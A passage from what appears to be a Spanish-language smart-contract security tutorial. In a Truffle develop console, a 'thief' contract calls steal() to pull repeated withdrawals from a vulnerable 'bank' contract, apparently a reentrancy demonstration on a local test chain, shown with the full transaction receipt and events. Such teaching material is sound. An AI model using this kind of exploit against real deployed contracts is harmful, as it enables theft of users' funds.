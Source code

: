   ```javascript
}
truffle(develop)> bank.balance(thief.address)
BN {
  negative: 0,
  words: [ 40000, <1 empty item> ],
  length: 1,
  red: null
}
truffle(develop)> web3.eth.getBalance(thief.address)
'10000'
```

Nuevamente, el resultado parece ser correcto. Retiramos 10.000 wei desde `thief` y el balance del banco es correcto, así como el balance de `thief`.
  
Ahora tratemos de usar la función `steal`:
  
```javascript  
truffle(develop)> thief.steal(bank.address, 30000, 3)
{
  tx: '0xd408aea55426ac5f43ffd22185f19929565f99e7fcef3341893d8784a4e78ccd',
  receipt: {
    transactionHash: '0xd408aea55426ac5f43ffd22185f19929565f99e7fcef3341893d8784a4e78ccd',
    transactionIndex: 0,
    blockNumber: 7,
    blockHash: '0x300fd72f970860cf2295592eb8d74f1a0c0304a736c1130bc91144bcdf5e023d',
    from: '0x709642f3ecbca11258abde0de9b0d7a716c56ca5',
    to: '0x04590dd27b025d164040c910ef38bc70be59799f',
    cumulativeGasUsed: 79792,
    gasUsed: 79792,
    contractAddress: null,
    logs: [ [Object], [Object], [Object], [Object], [Object] ],
    logsBloom: '0x000000000000000000000000008000000000000000000000001000000000000000000000000000004000000400000000000000000
    00000001000000000000000010000000000000000000000000000000000200000000008000000000000000000000000000000000000000000000000
    00000000000000000000000000008400100000000000000000000000000000000000000000000000000010000000000000000000000000000000000
    00000000000000040000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000
    00000010000000000000000000000000000000000000000000',
    status: true,
    effectiveGasPrice: 2930456346,
    type: '0x2',
    rawLogs: [
      [Object], [Object],
      [Object], [Object],
      [Object], [Object],
      [Object], [Object],
      [Object]
    ]
  },
  logs: [
    {
      address: '0x04590DD27b025D164040C910eF38bc70be59799f',
      blockHash: '0x300fd72f970860cf2295592eb8d74f1a0c0304a736c1130bc91144bcdf5e023d',
      blockNumber: 7,
      logIndex: 0,
      removed: false,
      transactionHash: '0xd408aea55426ac5f43ffd22185f19929565f99e7fcef3341893d8784a4e78ccd',
      transactionIndex: 0,
      id: 'log_4ee08487',
      event: 'ThiefTransferReceived',
      args: [Result]
```